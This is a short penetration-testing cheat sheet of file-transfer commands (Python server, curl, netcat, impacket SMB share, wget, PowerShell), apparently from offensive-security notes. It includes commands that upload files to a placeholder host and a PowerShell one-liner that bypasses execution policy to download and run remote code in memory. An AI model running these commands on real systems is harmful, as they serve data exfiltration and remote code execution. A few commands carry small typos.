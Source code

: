 # General - File Transfer

### Server side

###### Python - Web Server
```python
python -m SimpleHTTPServer <PORT>
```
###### curl
```bash
curl -F ‘data=@<FILE>' http://<IP>:<PORT>
```

###### nc
```bash
nc -w 3 <IP> <PORT> < <FILE>
Get-Content <FILE> | ./nc.exe -w 3 <IP> <PORT>
```

###### impacket-smbserver - SMB share
```bash
impacket-smbserver <SHARE_NAME> <SHARE_PATH>
impacket-smbserver <SHARE_NAME> `pwd`
```

### Client side

###### wget
```bash
wget http:/<IP>:<PORT>/<FILE>
wget -O file http://<IP>:<PORT>t/<FILE>
wget -r --no-parent -nH --reject "index.html*" http://<IP>:<PORT>/<DIR>
```

###### curl
```bash
curl http://<IP>:<PORT>/<FILE> > out.file
curl -O http://<IP>:<PORT>/<FILE>
```

###### netcat
```bash
nc -l -p <PORT> > out.file
nc -l -p <PORT> | tee out.file
```

###### Python
```python
python -c "from urllib import urlretrieve; urlretrieve('http://<IP>:<PORT>/<FILE>', '<OUT.FILE>')"
python3 -c "from urllib.request import urlretrieve; urlretrieve('http://<IP>:<PORT>/<FILE>', 'out.file')"
```

###### Powershell
```powershell
(New-Object Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>', '<FULLPATH\FILENAME>');

# Load in memory and execute
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>'); Invoke-ImportedCMD"
echo IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>') | powershell -nop -exec bypass -

# Connect to a SMB share
New-PSDrive -Name "LocalMountedFolder" -PSProvider "FileSystem" -Root "\\<IP>\<SHARE>"; cd LocalMountedFolder:
```
